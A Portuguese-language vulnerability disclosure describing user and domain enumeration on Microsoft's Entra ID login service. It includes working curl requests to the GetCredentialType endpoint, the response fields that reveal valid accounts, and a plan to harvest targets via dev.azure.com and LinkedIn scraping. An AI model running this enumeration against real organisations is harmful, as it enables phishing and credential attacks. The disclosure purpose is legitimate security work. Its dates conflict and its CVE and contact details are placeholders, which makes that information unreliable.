





Divulgação de Vulnerabilidade: Enumeração de Usuários no Serviço de Autenticação do Microsoft Online (Azure AD/Microsoft Entra ID)
Nota: a vulnerabilidade aqui destacada foi devidamente relatada ao Microsoft Security Response Center (MSRC) em 27 de abril de 2024, 09:42. Sob o submission number
VULN-125009, case number87704e external tracking IDmicrosoft_bounty_1, o item não foi considerado uma falha, tendo sido encerrado em 12 de junho de 2024, 22:31. Torno público o evento com o intuito de alinhar entendimento sobre a vulnerabilidade.
Sumário
Este documento detalha a descoberta de uma vulnerabilidade considerada crítica no serviço de autenticação do Microsoft Online (https://login.microsoftonline.com/), que permite a enumeração de usuários e domínios. A vulnerabilidade foi identificada através de uma análise de segurança seguindo os padrões OWASP, NIST, ISO 27034 e SEI CERT Coding Standard. Este relatório segue as diretrizes de divulgação responsável para garantir a mitigação adequada e a proteção de possíveis usuários afetados.
Detalhamento
Identificador: CVE-2024-XXXXX¹ | Categoria: Enumeração de Usuários e Domínios | Gravidade: Alta
Descrição
A vulnerabilidade permite que um atacante remoto descubra nomes de usuários e domínios válidos que utilizam o serviço de Autenticação do Microsoft Online. Este tipo de vulnerabilidade pode ser explorado para realizar ataques direcionados, como phishing, spear phishing e brute force.
Impacto
A exploração desta vulnerabilidade pode resultar em:
- Comprometimento de informações sensíveis dos usuários.
- Aumento da eficácia de ataques de engenharia social.
- Potencial acesso não autorizado aos recursos da empresa.
Vetor de Ataque
A vulnerabilidade foi identificada através de solicitações para o endpoint de autenticação do Microsoft Online. Este serviço permite o envio de um nome de usuário ou domínio específico, tendo como resposta comportamentos distintos que permitem a enumeração de ambos.
Método de Exploração
No portal Azure AD (Microsoft Entra),
registre uma aplicação através do App Registration
usando como método o Access Token. Conceda as permissões
básicas como email e User.Read por meio do Microsoft Graph.
A partir desse registro, você obterá o appId, parâmetro essencial para a construção da Url de autenticação que irá identificá-lo
no serviço:
https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://my.app/success&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
Adicional a isso, incluiremos os parâmetros clientId e code, obtidos durante o fluxo do backend, conforme exibido abaixo:
?client_id={clientId}
&response_type=code
&code_challenge={code}
&code_challenge_method=S256
&redirect_uri=https://minha-aplicacao/successo
&scope=https://graph.microsoft.com/email
&prompt=select_account
&sso_reload=true
Metodologia Visual
Este serviço irá lhe apresentar o site de autenticação personalizado para o inquilino que o solicita (tenant), exigindo então as credenciais de acesso.
| Área destinada a informar o usuário (login) | Informo um usuário e um domínio inválido | A aplicação me confirma que aquilo não existe | Ao acertar o domínio, a mensagem muda | Ao acertar o usuário, me é solicitado a senha |
|---|---|---|---|---|
|  |  |  |
 |  |
Como pode ser visto, a partir de uma conferência simples nas mensagens de erro, sou capaz de enumerar tanto usuários quanto domínios.
Metodologia Programática
Inspecionando o código-fonte do serviço https://login.microsoftonline.com, e analisando os pacotes enviados pela rede, é possível extrair a seguinte requisição:
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'accept: application/json' \
--header 'accept-language: pt-BR,pt;q=0.7' \
--header 'canary: {canaryHash}' \
--header 'client-request-id: {requestGuid}' \
--header 'content-type: application/json; charset=UTF-8' \
--header 'cookie: brcap=0; ESTSSSOTILES=1; AADSSOTILES=1; x-ms-gateway-slice=estsfd; stsservicecookie=estsfd; AADSSO=NA|NoExtension; ESTSAUTHLIGHT=+58498593-a7a2-422b-84bd-ef0fb1c85b0d; CCState={cstateHash}' \
--header 'hpgact: 1800' \
--header 'hpgid: 1104' \
--header 'hpgrequestid: {hpgRequestGuid}' \
--header 'origin: https://login.microsoftonline.com' \
--header 'priority: u=1, i' \
--header 'referer: https://login.microsoftonline.com/{appId}/oauth2/v2.0/authorize?client_id={clientId}&response_type=code&code_challenge={code}&code_challenge_method=S256&redirect_uri=https://minha-aplicacao/successo&scope=https://graph.microsoft.com/email&prompt=select_account&sso_reload=true
--header 'sec-ch-ua: "Brave";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "Windows"' \
--header 'sec-fetch-dest: empty' \
--header 'sec-fetch-mode: cors' \
--header 'sec-fetch-site: same-origin' \
--header 'sec-gpc: 1' \
--header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
--data-raw '{"username":"abacate@avocado.com.br","isOtherIdpSupported":true,"checkPhones":false,"isRemoteNGCSupported":true,"isCookieBannerShown":false,"isFidoSupported":true,"originalRequest":"{originalRequestHash}","country":"BR","forceotclogin":false,"isExternalFederationDisallowed":false,"isRemoteConnectSupported":false,"federationFlags":0,"isSignup":false,"flowToken":"{flowToken}","isAccessPassSupported":true}'
A primeira vista, parece algo seguro, dado que há muitas variáveis de controles no pacote, como requestGuid, cstateHash, hpgRequestGuid,
originalRequestHash ou flowToken. Mas nenhum deles é de fato necessário, pois não há validação.
Isso se confirma enxugando a requisição para:
curl --location 'https://login.microsoftonline.com/common/GetCredentialType?mkt=pt-BR' \
--header 'Content-Type: application/json' \
--header 'Cookie: fpc=Avu1jfhsb2hEhMRueZ1yZ9Q; stsservicecookie=estsfd; x-ms-gateway-slice=estsfd' \
--data-raw '{
"username": "abacate@avocado.com.br"
}'
Independente de qual formato você use, ambos irão retornar a seguinte estrutura:
{
"Username": "",
"Display": "",
"IfExistsResult": 0,
"IsUnmanaged": false,
"ThrottleStatus": 0,
"Credentials": {
"PrefCredential": 0,
"HasPassword": false,
"RemoteNgcParams": null,
"FidoParams": null,
"QrCodePinParams": null,
"SasParams": null,
"CertAuthParams": null,
"GoogleParams": null,
"FacebookParams": null,
"FederationRedirectUrl": "",
"OtcNotAutoSent": false
},
"DfpProperties": {},
"EstsProperties": {
"UserTenantBranding": [
{
"Locale": 0,
"BannerLogo": "",
"TileLogo": "",
"Illustration": "",
"BackgroundColor": "",
"KeepMeSignedInDisabled": false,
"UseTransparentLightBox": false,
"CustomizationFiles": {
"strings": {
"adminConsent": "",
"attributeCollection": "",
"authenticatorNudgeScreen": "",
"conditionalAccess": ""
},
"customCssUrl": ""
}
}
],
"DomainType": 0
},
"IsSignupDisallowed": false,
"apiCanary": ""
}
Mais uma vez, não precisamos nos concentrar no excesso, e sim, apenas no que muda: IfExistisResult e ThrottleStatus:
- Se usuário e domínio não existirem,
IfExistisResulteThrottleStatusserão1; - Se usuário não existir, mas o domínio existe,
IfExistisResultserá1eThrottleStatusserá0; - Se usuário e domínio existem,
IfExistisResulteThrottleStatusserão0;
Obs: há outras mudanças no json que colaboram com a identificação, mas optei pelos itens acima por brevidade.
A partir dessa demonstração, a automatização para o ataque passa a ser trivial.
Vale salientar que, dado que o serviço Azure DevOps usa o Microsoft Online,
e sua url é acessível através da url https://dev.azure.com/{nomeDaOrganizacao}, posso fazer um scrapping no LinkedIn para obter o
nome principal de cada empresa e testá-lo até obter um HttpStatus 200:
https://dev.azure.com/mcdonalds
https://dev.azure.com/samsung
https://dev.azure.com/ibm
...
https://dev.azure.com/microsoft
Ao encontrar, basta aplicar a mesma metodologia, seja visual ou programática. O mesmo pode ser feito com os funcionários da empresa alvo.
| Usuário não existe no domínio | Usuário existe e me é solicitado a senha |
|---|---|
 |
 |
Mitigação e Recomendações Ações Imediatas:
Implementar respostas padronizadas para todas as tentativas de autenticação, independentemente da validade do nome de usuário ou domínio. Monitorar e registrar tentativas de autenticação suspeitas para detecção precoce de possíveis ataques de enumeração. Recomendações a Longo Prazo:
Revisar e atualizar as políticas de autenticação para assegurar conformidade com as melhores práticas de segurança. Realizar treinamentos de conscientização de segurança para os usuários, enfatizando a importância de práticas seguras de autenticação e prevenção de engenharia social. Linha do Tempo Data da Descoberta: 10 de Julho de 2024 Data da Notificação ao Microsoft: 12 de Julho de 2024 Data da Confirmação pela Microsoft: 20 de Julho de 2024 Data da Correção Esperada: 10 de Agosto de 2024 Contato Para mais informações ou esclarecimentos, entre em contato com a equipe de segurança:
Nome: [Seu Nome] Posição: Chief Security Officer Email: [Seu Email] Telefone: [Seu Telefone]
Referências ISO 27034-1: Information technology — Security techniques — Application security — Part 1: Overview and concepts SEI CERT Coding Standard for C OWASP Authentication Cheat Sheet NIST SP 800-63B: Digital Identity Guidelines Conclusão A descoberta desta vulnerabilidade no serviço de autenticação do Microsoft Online (Azure AD) ressalta a importância contínua de revisões de segurança e conformidade com padrões internacionais. A mitigação rápida e eficaz é crucial para proteger os usuários e prevenir exploração maliciosa. Este documento serve como um guia para a divulgação responsável e implementação de medidas corretivas adequadas.
Este documento foi elaborado em conformidade com as diretrizes de segurança da ISO 27034 e SEI CERT Coding Standard, garantindo uma abordagem estruturada e profissional para a divulgação de vulnerabilidades.